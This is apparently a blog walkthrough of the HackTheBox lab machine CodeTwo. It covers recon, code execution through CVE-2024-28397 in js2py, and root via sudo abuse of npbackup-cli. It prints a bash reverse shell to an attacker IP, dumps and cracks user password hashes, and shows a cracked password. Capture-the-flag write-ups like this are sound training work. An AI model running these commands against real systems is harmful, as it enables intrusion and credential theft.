

+++
date = '2025-08-18T18:27:07Z'
draft = false
title = 'CodeTwo'
+++

<!---
[ctf](/tags#ctf) [htb-codetwo](/tags#htb-codetwo) [hackthebox](/tags#hackthebox) [cve-2024-28397](/tags#cve-2024-28397) [command-injection](/tags#command-injection) [sudo-privesc](/tags#sudo-privesc) [npbackup](/tags#npbackup)
--->

CodeTwo is a HackTheBox machine featuring a vulnerable web application with JavaScript execution functionality leading to full system compromise through CVE exploitation and backup tool abuse.

## Box Info

| Name | [CodeTwo](https://app.hackthebox.com/machines/CodeTwo) |
|------|--------------------------------------------------------|
| Type | Machine |
| Difficulty | <span class="diff-Easy">Easy</span> |
| Creator | [FisMatHack](https://app.hackthebox.com/users/1076236) |
| Release Date | 16 August 2025 |
| Link | https://app.hackthebox.com/machines/CodeTwo |
| MY HTB Profile | https://app.hackthebox.com/profile/1601323 |

---

## Reconnaissance

### Initial Enumeration

Performed Nmap scan and identified 2 open ports 22 and 8000 

``` sh
┌──(thegenetic㉿kali)-[~]
└─$ nmap 10.10.11.82
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 08:24 UTC
Nmap scan report for 10.10.11.82
Host is up (1.2s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 11.67 seconds
```

Then performed a detailed scan on the 2 identified ports and detected the use of `Gunicorn 20.0.4`

``` sh
┌──(thegenetic㉿kali)-[~]
└─$ nmap 10.10.11.82 -sCV -p 22,8000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 08:25 UTC
Nmap scan report for 10.10.11.82
Host is up (0.52s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:47:b4:0c:69:67:93:3a:f9:b4:5d:b3:2f:bc:9e:23 (RSA)
|   256 7d:44:3f:f1:b1:e2:bb:3d:91:d5:da:58:0f:51:e5:ad (ECDSA)
|_  256 f1:6b:1d:36:18:06:7a:05:3f:07:57:e1:ef:86:b4:85 (ED25519)
8000/tcp open  http    Gunicorn 20.0.4
|_http-title: Welcome to CodeTwo
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.43 seconds
```

### Web Application Analysis

After adding the ip to the `hosts` file I landed on this page
 <p style="text-align: center"></p>

Login & Registration pages
<p style="text-align: center"></p>
<p style="text-align: center"></p>

We can also download an app(available on the landing page), and then, checked the zip file within which contains code for the flask application. It looks something like this
<p style="text-align: center"></p>

Then i registered an account and landed on the `/dashboard` page, where we can 
* Write and run `javascript` codes
* Save codes 
The logic behind them could be analyzed from the codebase we downloaded.
<p style="text-align: center"></p>

### Source Code Repo Analysis

I tried to dump the database i found in the attachments, it had 2 table `users` and `code_snippet`, but no data within
<p style="text-align: center"></p>

``` sql
sqlite> select * from sqlite_master;
table|user|user|2|CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(80) NOT NULL, 
	password_hash VARCHAR(128) NOT NULL, 
	PRIMARY KEY (id), 
	UNIQUE (username)
)
index|sqlite_autoindex_user_1|user|3|
table|code_snippet|code_snippet|4|CREATE TABLE code_snippet (
	id INTEGER NOT NULL, 
	user_id INTEGER NOT NULL, 
	code TEXT NOT NULL, 
	PRIMARY KEY (id), 
	FOREIGN KEY(user_id) REFERENCES user (id)
)
sqlite> select * from user;
sqlite> select * from code_snippet;
```


Then i looked into the `requirements.txt` file and the `js2py/0.74` module had a cve mapped `CVE-2024-28397` - a remote code execution vulnerability!
``` txt
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74
```
<p style="text-align: center"></p>

## Exploitation

### CVE-2024-28397 RCE 
Then I got a script from github and used it for exploiting the CVE further
<p style="text-align: center"></p>

> Link: https://github.com/waleed-hassan569/CVE-2024-28397-command-execution-poc/blob/main/payload.js

Executed the `id` command and retrieved details for the user `app`
<p style="text-align: center"></p>

Then tried accessing system files
<p style="text-align: center"></p>

Here we have identified 3 users `root`, `marco` & `app`

Then i executed a revershell command from pentestmonkey modified it a bit and established an `nc` listener at my end 

``` sh
bash -c ‘sh -i >& /dev/tcp/10.10.16.4/4444 0>&1’
```
<p style="text-align: center"></p>

After getting the shell my first thought was to extract the content of the db to get information about other users, so i did, and got the hashed credential of the users.
<p style="text-align: center"></p>

``` text
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
3|thegenetic|098f6bcd4621d373cade4e832627b4f6
```

then i used crackstation to crack the hashes and retrieve the passwords(retreived only the password of `marco` :)

``` text
marco -> sweetangelbabylove
```

Now I can try to access the ssh login with the user marco...

And i got access
<p style="text-align: center"></p>
Now lets hunt for the user flag first and submit it 
<p style="text-align: center"></p>

### Privilege Escalation

Identified a python script which could be executed by 	`marco` with `root` privileges, but still encountered some blockage during the execution then sudoed my waythrough :)

``` sh
marco@codetwo:~$ sudo -l
Matching Defaults entries for marco on codetwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli

marco@codetwo:~$ /usr/local/bin/npbackup-cli
Cannot create logfile. Trying to obtain temporary log file.
Message: [Errno 13] Permission denied: '/var/log/npbackup-cli.log'
Trying temporary log file in /tmp/ofunctions.logger_utils.log
[Errno 13] Permission denied: '/var/log/npbackup-cli.log'
Using [/tmp/ofunctions.logger_utils.log]
2025-08-17 19:00:32,337 :: WARNING :: Failed to use log file "/var/log/npbackup-cli.log", [Errno 13] Permission denied: '/var/log/npbackup-cli.log'
Using [/tmp/ofunctions.logger_utils.log].
2025-08-17 19:00:32,337 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as marco
2025-08-17 19:00:32,339 :: CRITICAL :: Cannot run without configuration file.
2025-08-17 19:00:32,346 :: INFO :: ExecTime = 0:00:00.011776, finished, state is: critical.

marco@codetwo:~$ sudo npbackup-cli
2025-08-17 19:12:18,265 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-17 19:12:18,266 :: CRITICAL :: Cannot run without configuration file.
2025-08-17 19:12:18,274 :: INFO :: ExecTime = 0:00:00.011644, finished, state is: critical.
```
We can see it requires some config file, which is available at `/home/marco/npbackup.conf`

``` sh
marco@codetwo:~$ cat npbackup.conf 
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}

```
 
Now to understand how to use this tool and pass the config file i have checked its `help` menu 
``` sh
marco@codetwo:~$ sudo npbackup-cli -h
usage: npbackup-cli [-h] [-c CONFIG_FILE] [--repo-name REPO_NAME] [--repo-group REPO_GROUP] [-b] [-f] [-r RESTORE] [-s] [--ls [LS]] [--find FIND] [--forget FORGET] [--policy] [--housekeeping] [--quick-check] [--full-check]
                    [--check CHECK] [--prune [PRUNE]] [--prune-max] [--unlock] [--repair-index] [--repair-packs REPAIR_PACKS] [--repair-snapshots] [--repair REPAIR] [--recover] [--list LIST] [--dump DUMP] [--stats [STATS]] [--raw RAW]
                    [--init] [--has-recent-snapshot] [--restore-includes RESTORE_INCLUDES] [--snapshot-id SNAPSHOT_ID] [--json] [--stdin] [--stdin-filename STDIN_FILENAME] [-v] [-V] [--dry-run] [--no-cache] [--license] [--auto-upgrade]
                    [--log-file LOG_FILE] [--show-config] [--external-backend-binary EXTERNAL_BACKEND_BINARY] [--group-operation GROUP_OPERATION] [--create-key CREATE_KEY] [--create-backup-scheduled-task CREATE_BACKUP_SCHEDULED_TASK]
                    [--create-housekeeping-scheduled-task CREATE_HOUSEKEEPING_SCHEDULED_TASK] [--check-config-file]

Portable Network Backup Client This program is distributed under the GNU General Public License and comes with ABSOLUTELY NO WARRANTY. This is free software, and you are welcome to redistribute it under certain conditions; Please type
--license for more info.

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG_FILE, --config-file CONFIG_FILE
                        Path to alternative configuration file (defaults to current dir/npbackup.conf)
  --repo-name REPO_NAME
                        Name of the repository to work with. Defaults to 'default'. This can also be a comma separated list of repo names. Can accept special name '__all__' to work with all repositories.
  --repo-group REPO_GROUP
                        Comme separated list of groups to work with. Can accept special name '__all__' to work with all repositories.
  -b, --backup          Run a backup
  -f, --force           Force running a backup regardless of existing backups age
  -r RESTORE, --restore RESTORE
                        Restore to path given by --restore, add --snapshot-id to specify a snapshot other than latest
  -s, --snapshots       Show current snapshots
  --ls [LS]             Show content given snapshot. When no snapshot id is given, latest is used
  --find FIND           Find full path of given file / directory
  --forget FORGET       Forget given snapshot (accepts comma separated list of snapshots)
  --policy              Apply retention policy to snapshots (forget snapshots)
  --housekeeping        Run --check quick, --policy and --prune in one go
  --quick-check         Deprecated in favor of --'check quick'. Quick check repository
  --full-check          Deprecated in favor of '--check full'. Full check repository (read all data)
  --check CHECK         Checks the repository. Valid arguments are 'quick' (metadata check) and 'full' (metadata + data check)
  --prune [PRUNE]       Prune data in repository, also accepts max parameter in order prune reclaiming maximum space
  --prune-max           Deprecated in favor of --prune max
  --unlock              Unlock repository
  --repair-index        Deprecated in favor of '--repair index'.Repair repo index
  --repair-packs REPAIR_PACKS
                        Deprecated in favor of '--repair packs'. Repair repo packs ids given by --repair-packs
  --repair-snapshots    Deprecated in favor of '--repair snapshots'.Repair repo snapshots
  --repair REPAIR       Repair the repository. Valid arguments are 'index', 'snapshots', or 'packs'
  --recover             Recover lost repo snapshots
  --list LIST           Show [blobs|packs|index|snapshots|keys|locks] objects
  --dump DUMP           Dump a specific file to stdout (full path given by --ls), use with --dump [file], add --snapshot-id to specify a snapshot other than latest
  --stats [STATS]       Get repository statistics. If snapshot id is given, only snapshot statistics will be shown. You may also pass "--mode raw-data" or "--mode debug" (with double quotes) to get full repo statistics
  --raw RAW             Run raw command against backend. Use with --raw "my raw backend command"
  --init                Manually initialize a repo (is done automatically on first backup)
  --has-recent-snapshot
                        Check if a recent snapshot exists
  --restore-includes RESTORE_INCLUDES
                        Restore only paths within include path, comma separated list accepted
  --snapshot-id SNAPSHOT_ID
                        Choose which snapshot to use. Defaults to latest
  --json                Run in JSON API mode. Nothing else than JSON will be printed to stdout
  --stdin               Backup using data from stdin input
  --stdin-filename STDIN_FILENAME
                        Alternate filename for stdin, defaults to 'stdin.data'
  -v, --verbose         Show verbose output
  -V, --version         Show program version
  --dry-run             Run operations in test mode, no actual modifications
  --no-cache            Run operations without cache
  --license             Show license
  --auto-upgrade        Auto upgrade NPBackup
  --log-file LOG_FILE   Optional path for logfile
  --show-config         Show full inherited configuration for current repo. Optionally you can set NPBACKUP_MANAGER_PASSWORD env variable for more details.
  --external-backend-binary EXTERNAL_BACKEND_BINARY
                        Full path to alternative external backend binary
  --group-operation GROUP_OPERATION
                        Deprecated command to launch operations on multiple repositories. Not needed anymore. Replaced by --repo-name x,y or --repo-group x,y
  --create-key CREATE_KEY
                        Create a new encryption key, requires a file path
  --create-backup-scheduled-task CREATE_BACKUP_SCHEDULED_TASK
                        Create a scheduled backup task, specify an argument interval via interval=minutes, or hour=hour,minute=minute for a daily task
  --create-housekeeping-scheduled-task CREATE_HOUSEKEEPING_SCHEDULED_TASK
                        Create a scheduled housekeeping task, specify hour=hour,minute=minute for a daily task
  --check-config-file   Check if config file is valid
  ```

After so much of struggle i finally figured it out

so first  i created a backup i.e. snapshot of the `/root` direcory -> For this i create another configuration file called `custom.conf` and modified the `paths` parameter to `/root/` and then using this new config file i create a snapashot 

``` sh  
  conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /root/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```

``` sh
marco@codetwo:~$ sudo npbackup-cli -c custom.conf -b -f
2025-08-17 20:03:32,108 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-17 20:03:32,137 :: INFO :: Loaded config 09F15BEC in /home/marco/custom.conf
2025-08-17 20:03:32,149 :: INFO :: Running backup of ['/root/'] to repo default
2025-08-17 20:03:33,361 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excluded_extensions
2025-08-17 20:03:33,361 :: ERROR :: Exclude file 'excludes/generic_excluded_extensions' not found
2025-08-17 20:03:33,361 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/generic_excludes
2025-08-17 20:03:33,362 :: ERROR :: Exclude file 'excludes/generic_excludes' not found
2025-08-17 20:03:33,362 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/windows_excludes
2025-08-17 20:03:33,362 :: ERROR :: Exclude file 'excludes/windows_excludes' not found
2025-08-17 20:03:33,362 :: INFO :: Trying to expanding exclude file path to /usr/local/bin/excludes/linux_excludes
2025-08-17 20:03:33,362 :: ERROR :: Exclude file 'excludes/linux_excludes' not found
2025-08-17 20:03:33,362 :: WARNING :: Parameter --use-fs-snapshot was given, which is only compatible with Windows
no parent snapshot found, will read all files

Files:          15 new,     0 changed,     0 unmodified
Dirs:            8 new,     0 changed,     0 unmodified
Added to the repository: 190.612 KiB (39.884 KiB stored)

processed 15 files, 197.660 KiB in 0:00
snapshot 472f57f9 saved
2025-08-17 20:03:34,617 :: INFO :: Backend finished with success
2025-08-17 20:03:34,619 :: INFO :: Processed 197.7 KiB of data
2025-08-17 20:03:34,620 :: ERROR :: Backup is smaller than configured minmium backup size
2025-08-17 20:03:34,620 :: ERROR :: Operation finished with failure
2025-08-17 20:03:34,621 :: INFO :: Runner took 2.472893 seconds for backup
2025-08-17 20:03:34,621 :: INFO :: Operation finished
2025-08-17 20:03:34,628 :: INFO :: ExecTime = 0:00:02.523061, finished, state is: errors.

```
Then i tried to restore the backup and access it but i couldn't as the owner of the directory was `root` user and `marco` didn't had the privileges
``` sh
marco@codetwo:~$ sudo npbackup-cli -c custom.conf -r /tmp/restore --snapshot-id 472f57f9 --restore-includes /root/root.txt
2025-08-17 20:06:59,879 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-08-17 20:06:59,908 :: INFO :: Loaded config 09F15BEC in /home/marco/custom.conf
2025-08-17 20:06:59,920 :: INFO :: Launching restore to /tmp/restore
restoring snapshot 472f57f9 of [/root] at 2025-08-17 20:03:33.37564079 +0000 UTC by root@codetwo to /tmp/restore
Summary: Restored 2 / 1 files/dirs (33 B / 33 B) in 0:00
2025-08-17 20:07:02,357 :: INFO :: Successfully restored data
2025-08-17 20:07:02,357 :: INFO :: Runner took 2.43832 seconds for restore
2025-08-17 20:07:02,358 :: INFO :: Operation finished
2025-08-17 20:07:02,365 :: INFO :: ExecTime = 0:00:02.489227, finished, state is: success.

marco@codetwo:~$ cat /tmp/restore/root/root.txt
cat: /tmp/restore/root/root.txt: Permission denied

marco@codetwo:~$ sudo cat /tmp/restore/root/root.txt
[sudo] password for marco: 
Sorry, user marco is not allowed to execute '/usr/bin/cat /tmp/restore/root/root.txt' as root on codetwo.
```
and then used that snapshot(snapshot-id) to dump the contents within the backup root directory (p.s. we can use the old config file for executing this command as now its not creating any backup of any particular directory, its just displaying the already backedup snapshots) 
``` sh
sudo npbackup-cli -c npbackup.conf --dump /root/root.txt --snapshot-id 472f57f9
ce54a*****597ad52
```  

Finally [submitted](https://labs.hackthebox.com/achievement/machine/1601323/692) the flag
<p style="text-align: center"></p>

## /exit
Another machine conquered, another lesson learned.  
If you found this useful, drop by my [HTB profile](https://app.hackthebox.com/profile/1601323) - let's keep the hacking spirit alive! 🚩